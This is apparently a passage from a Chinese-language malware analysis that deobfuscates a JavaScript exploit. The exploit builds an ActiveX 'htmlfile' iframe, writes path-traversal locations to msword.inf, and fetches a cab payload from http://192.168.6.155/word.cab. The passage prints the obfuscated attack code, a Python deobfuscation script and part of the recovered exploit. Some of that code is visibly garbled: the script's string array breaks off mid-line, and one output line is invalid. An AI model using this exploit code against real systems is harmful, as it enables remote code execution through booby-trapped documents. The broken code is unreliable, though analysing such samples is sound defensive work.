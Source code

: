 ```
    _0x258443[_0x2ee207(0xb3)]['location'] = '.' + _0xd7e33d + _0x371a71 + _0x487bfa + ':' + '..' + _0x2ee207(0xd6) + '/.' + _0x2ee207(0xdd) + 'T' + _0x2ee207(0xb7) + _0x2ee207(0xdc) + _0x2ee207(0xcb),
    _0x5a6d4b['Script'][_0x2ee207(0xb0)] = '.' + _0xd7e33d + _0x371a71 + _0x487bfa + ':.' + './' + '../' + '..' + '/.' + './../T' + 'em' + 'p/msword.inf',
    _0x5a6d4b[_0x2ee207(0xb3)]['location'] = '.' + _0xd7e33d + _0x371a71 + _0x487bfa + ':' + _0x2ee207(0xe9) + _0x2ee207(0xe9) + _0x2ee207(0xbf),
    _0x5a6d4b[_0x2ee207(0xb3)]['location'] = '.' + _0xd7e33d + _0x371a71 + _0x487bfa + ':' + '../' + _0x2ee207(0xe9) + _0x2ee207(0xd0);
}
    ()); 
```

可以看到代码前段其实算是一个 “密码本”，通过`_0x127f75 = _0x127f75 - 0xaa;`操作以及`_0x59985d['push'](_0x59985d['shift']());`操作，获取到对应索引值位置真正的字符串，代码的后半段很多内容都是通过在该 “密码本” 中索引并拼接实现的。

 

一开始我对`_0x59985d['push'](_0x59985d['shift']());`操作不太熟悉，还是在 IE 中确定这句代码实际上是在对数组进行一个原位的前向循环。

 

最终使用一个 python 脚本对这段代码进行处理：

```
import re
 
data = ['123', '365952KMsRQT', 'tiveX', '/Lo', './../../', 'contentDocument', 'ppD', 'Dat', 'close', 'Acti', 'removeChild', 'mlF', 'write', './A', 'ata/', 'ile', '../', 'body', 'setAttribute', '#version=5,0,0,0', 'ssi', 'iframe', '748708rfmUTk', 'documentElement', 'lFile', 'location', '159708hBVRtu', 'a/Lo', 'Script', 'document', 'call', 'contentWindow', 'emp', 'Document', 'Obj', 'prototype', 'lfi', 'bject', 'send', 'appendChild', 'Low/msword.inf', 'htmlfile', '115924pLbIpw', 'GET', 'p/msword.inf', '1109sMoXXX', './../A', 'htm', 'l/T', 'cal/', '1wzQpCO', 'ect', 'w/msword.inf', '522415dmiRUA', 'http://192.168.6.155/word.cab', '88320wWglcB', 'XMLHttpRequest', 'msword.inf', 'Act', 'D:edbc374c-5730-432a-b5b8-de94f0b57217', 'open', '2x}'.format(i+170) + ')'
    contents = contents.replace(original, "'" + data[i] + "'")
 
str_pattern = re.compile(r'(\w+) = \'(\w+)\'')
for pair in str_pattern.findall(contents):
    contents = contents.replace(pair[0], "'" + pair[1] + "'")
 
#contents = contents.replace("' + '", "")
contents = re.sub(r'\'\)? \+ \(?\'', '', contents)
print(contents) 
```

得到最终的代码（后半部分）：

```
var a0_0x15ec = a0_0x15ec,
_0x279eab = window,
_0x1b93d7 = _0x279eab['document'],
_0xcf5a2 = _0x279eab['Document']['prototype']['createElement'],
_0x4d7c02 = _0x279eab['Document']['prototype']['write'],
_0x1ee31c = _0x279eab['HTMLElement']['prototype']['appendChild'],
_0x2d20cd = _0x279eab['HTMLElement']['prototype']['removeChild'],
_0x4ff114 = _0xcf5a2['call'](_0x1b93d7, 'iframe');
try {
    _0x1ee31c['call'](_0x1b93d7['body'], _0x4ff114);
} catch (_0x1ab454) {
    _0x1ee31c['call'](_0x1b93d7['documentElement'], _0x4ff114);
}
var _0x403e5f = _0x4ff114['contentWindow']['ActiveXObject'],
_0x224f7d = new _0x403e5f('htmlfile');
_0x4ff114['contentDocument']['open']()['close']();
var 'p' = 'p';
try {
    _0x2d20cd['call'](_0x1b93d7['body'], _0x4ff114);
```